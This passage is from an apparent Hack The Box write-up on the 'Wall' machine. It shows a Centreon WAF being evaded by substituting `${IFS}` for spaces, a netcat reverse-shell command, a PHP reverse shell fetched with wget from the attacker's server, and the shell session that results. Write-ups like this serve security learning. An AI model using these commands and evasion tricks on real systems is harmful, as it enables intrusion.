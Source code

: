 Yup, there is a WAF in place.

#### Evading the WAF

Comparing `id` and `nc -e /bin/bash 10.10.10.10 8888`, the WAF might be blocking either:

* The command itself (nc which is possible as it's often used to create a backdoor) or;
* Any of the special characters (-/. or space)

To narrow down the WAF blacklist, let's try a simpler command `echo test;` which got blocked as well. The echo command is unlikely to be blocked, so let's assume the problem is with the space character.

On UNIX systems, `${IFS}` is a special shell variable called internal field separator. We can use it to replace a space character. (More information on IFS [here](https://dwheeler.com/essays/fixing-unix-linux-filenames.html#ifs), and a cheatsheet mentioning its use for RCE [here](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution).)

After replacing the space with ${IFS}, the payload got through the WAF and got executed.

```
[+] Injecting Done, triggering the payload
200
<?xml version="1.0" encoding="UTF-8"?>
<response><debug><![CDATA[<a href='#' onClick="toggleDebug('1'); return false;"><label id='togglerp_1' style='display: none'>[ + ]</label><label id='togglerm_1'>[ - ]</label></a> <b><font color='red'>Central</font></b><br/><div style='display: block;' id='debug_1'>test<br>sh: 1: -v: not found<br><br></div><br/>]]></debug><status><![CDATA[<b><font color='red'>NOK</font></b>]]></status><statuscode><![CDATA[1]]></statuscode><errorsPhp/></response>

Payload:echo${IFS}test;
```

We know now that we can at least execute simple commands with spaces as long as we replace them with ${IFS}.

Without further testing to gather more information on the WAF blacklist, using `wget` to download a our payload file onto the machine seems feasible.

Let's modify this php shell available in Kali with our IP and port, before serving it up on a web server.

`/usr/share/webshells/php/php-reverse-shell.php`

* My machine: `python -m SimpleHTTPServer`
* Wall: `wget http://10.10.10.10:8000 php-reverse-shell.php` - using the same exploit script
* My machine: `curl http://10.10.10.157/centreon/php-reverse-shell.php`

We got our first shell.

```
root@kali:~/htb/wall# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.157] 58366
Linux Wall 4.15.0-54-generic #58-Ubuntu SMP Mon Jun 24 10:55:24 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:58:39 up 10:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
